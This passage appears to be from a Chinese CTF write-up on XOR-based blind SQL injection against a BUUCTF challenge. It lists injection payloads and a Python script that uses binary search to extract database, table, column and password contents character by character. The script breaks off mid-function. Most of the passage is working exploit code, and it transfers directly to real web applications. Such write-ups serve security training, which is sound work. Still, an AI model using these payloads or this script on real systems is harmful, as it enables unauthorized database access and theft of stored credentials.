 ```python
   print(flag)
```

#### 利用异或盲注

```sql
?id=0'^1--+
?id=0'^0--+
?id=0'^(ascii(substr(database(),1,1))>1)--+
?id=0'^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),{0},1))={1})--+
```

##### 脚本:

+ GET

```python
# -*- coding: utf-8 -*-
# @Author: J1am

import requests
import string
import time
url = "http://b03ef22a-194e-466b-b9cf-3dbc879514bd.node4.buuoj.cn:81/search.php"
flag = ''


def payload(i, j):
    # time.sleep(0.8)
    # 数据库名字
    # sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)
    # 表名
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)
    # 列名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='Flaaaaag')),%d,1))>%d)^1"%(i,j)
    # 查询flag
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data)
    # print (r.url)
    if "Click" in r.text:
        res = 1
    else:
        res = 0
    return res


def exp():
    global flag
    for i in range(1, 10000):
        # time.sleep(0.8)
        print(i, ':')
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
```
